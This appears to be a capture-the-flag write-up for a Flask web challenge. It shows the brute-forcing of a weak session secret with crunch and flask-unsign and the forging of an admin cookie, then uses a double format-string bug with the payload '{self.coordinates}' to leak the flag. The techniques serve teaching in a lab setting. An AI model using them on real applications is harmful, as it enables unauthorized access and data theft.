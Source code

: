 # Find The Compass
> Author : Mika - @bWlrYQ

## "Recon"

We're given the app's source code. By exploring the `__init__.py` we spot that the secret used to sign session cookies is generated through a "homemade" function which is usually a very bad sign.

```py
def generate_key() -> str:
    """Generate a random key for the Flask secret (I love Python!)"""
    return (''.join([str(x) for x in [(int(x) ^ (int(time()) % 2 ^ randint(0, 2))) for x in [int(char) for char in str(digits[randint(0, 9)]) * 4]]])).rjust(8, '0')   
```

By either analysing the code or printing a large number of time the result of this function, we get that it's an 8 digits max secret that's padded with 0's when the returned code's length is inferiour to 8. This is insecure because 8 digits code are 10 million possibilities which makes it bruteforceable. 

In order to bruteforce the secret we need a token, good point for us the app sets one as soon as you request the web server using the before_request Flask decorator :

```py
@app.before_request
def before_request():
    if not session.get('status'):
        session['status'] = 'guest'
    if not session.get('logged_in'):
        session['logged_in'] = False
    session['nonce'] = token_hex(32)
```

## Cookie crafting

We can retrieve a token, here I got `.eJwNzLsNhDAQBcBeNiaw13-aQQ_vYiEhE9hE6Ho_poB56bpbU9nOTuuBa-hC_e5VaSWzs7rsIyQUhBrUZvgdrEgo2al1zCKHxmSsk8Aw0VdORcBsOGVaaEzMZ3xXe3RM-v0BbschJA.ZeR-Cg.i999Fzi_ke7HdQwGze-NhZDC6lU`

Using `flask-unsign` and `crunch` we can generate a wordlist and then bruteforce the token's secret.

```
╰─λ crunch 8 8 -t %%%%%%%% -o wordlist.txt
Crunch will now generate the following amount of data: 900000000 bytes
858 MB
0 GB
0 TB
0 PB
Crunch will now generate the following number of lines: 100000000 

crunch:  56% completed generating output

crunch: 100% completed generating output
╰─λ head wordlist.txt && tail wordlist.txt
00000000
00000001
00000002
00000003
00000004
00000005
00000006
00000007
00000008
00000009
99999990
99999991
99999992
99999993
99999994
99999995
99999996
99999997
99999998
99999999
```

```
╰─λ flask-unsign --unsign --cookie '.eJwNzLsNhDAQBcBeNiaw13-aQQ_vYiEhE9hE6Ho_poB56bpbU9nOTuuBa-hC_e5VaSWzs7rsIyQUhBrUZvgdrEgo2al1zCKHxmSsk8Aw0VdORcBsOGVaaEzMZ3xXe3RM-v0BbschJA.ZeR-Cg.i999Fzi ke7HdQwGze-NhZDC6lU' --wordlist ./wordlist.txt --no-literal-eval
[*] Session decodes to: {'logged_in': False, 'nonce': '0b2e3846ad59a5c5e18a4ba2ea7a983e1322ddfe67013d52a064c279da220278', 'status': 'guest'}
[*] Starting brute-forcer with 8 threads..
[+] Found secret key after 6784 attempts
b'00006666'
```

The secret is `00006666`. Using this value let's craft a new cookie that will allow us to login (be careful, by checking the login function, it sets the status, logged_in to True and the username :))

```
╰─λ flask-unsign --secret '00006666' --sign --cookie '{"nonce":"aaaa", "status": "admin", "username": "admin", "logged_in": True}'
.eJyrVsrLz0tOVbJSSgQCJR2l4pLEktJiED8lNzMPKFBanFqUl5ibiiSUk5-enpoSD2RblRSVptYCABucF1Y.ZeR_Ww.KiwTMj54DnHVy5jvxPN2X47egfA
```

By adding this cookie to our browser, we get access to a panel that allows us to add reminders.

![Panel](img/panel.png)

## Format String 

Before going further, as we have the source code, let's check what we could do and if there are any spottable vulnerabilities. First thing that should catch our attention is in utils.py: 

```py
COMPASS = {
    # Here are the coordinates of the compass.
    'COORDINATES': open('flag.txt', 'r').read()
}
```

So the coordinates of the stolen compass are stored in a COMPASS dictionnary. We need to access the value of this compass dict, this can be done through various ways, RCE, SSTI or FormatString :). Going through the source code, the "panel" route is intereting: 

```py
@app.route('/panel', methods=['GET'])
def panel():
    if not authorized():
        return redirect(url_for('index'))
    reminders = Reminder.query.all()
    reminders_list = []
    # If a wise admin needs the coordinates of the compass, he can retrieve them.
    renderer = Renderer(COMPASS['COORDINATES'])
    for reminder in reminders:
        reminders_list.append([reminder.id, renderer.render(reminder.author.username , reminder.content)])
    return render_template('panel.html', reminders=reminders_list)
```

When listing the reminders, a "Renderer" object is created and we pass the value of the flag to the constructor. This behaviour is very unexpected, the comment tells us that only a wise admin needing the coordinates can retrieve them. Lets give a look the class that managed the Reminder object.

```py
from html import escape

class Renderer(object):
    """
    Proof of Concept to one day get rid of Jinja2. Who needs Jinja2 ?
    """
    def __init__(self, coordinates: str):
        # Only a wise administrator can retrieve the coordinates of the compass.
        self.coordinates = coordinates

    def render(self, author, content):
        author = escape(author)
        content = escape(content)
        htmlTemplate = f"<p><strong>{author}</strong>: {content}</p>"
        try:
            #Use escape for XSS protection
            return (htmlTemplate.format(self=self))
        except Exception as e:
            print(e)
            return "An error occured while rendering the reminder."
```

So this class renders the content of a reminder to HTML by using the escape function, the thing is we have "format" that's called twice on the user input. Once in `htmlTemplate` with the use of the `f"<string>"` and then at the return statement using `.format(self=self)`.

This allows any user that inputs a reminder to see its input rendered. Using the `self` keyword we can retrieve the flag with the following payload `{self.coordinates}` (as the coordinates have been set in the constructor of the object).

![flag](img/panel_flag.png)